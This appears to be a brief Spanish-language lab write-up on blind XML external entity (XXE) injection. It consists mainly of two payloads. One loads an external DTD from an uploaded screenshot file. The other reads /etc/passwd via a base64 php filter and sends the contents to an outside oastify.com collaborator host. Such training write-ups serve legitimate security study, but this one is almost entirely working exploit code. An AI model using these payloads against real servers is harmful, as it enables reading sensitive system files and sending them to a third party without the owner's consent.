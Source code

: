 ```yaml
---
layout: default
title: 6 - Exploiting blind XXE to retrieve data via error messages
---
```

La idea va a ser cargar un DTD desde la foto que podemos subir al endpoint de feedback.

Payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://localhost:40817/feedback/screenshots/3.xml"> %xxe; ]>
<stockCheck><productId>2</productId><storeId>1</storeId></stockCheck>
```
DTD:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://7aitci4d6zry15ur9565w6tvxm3drbf0.oastify.com/?x=%file;'>">
%eval;
%exfil;
```
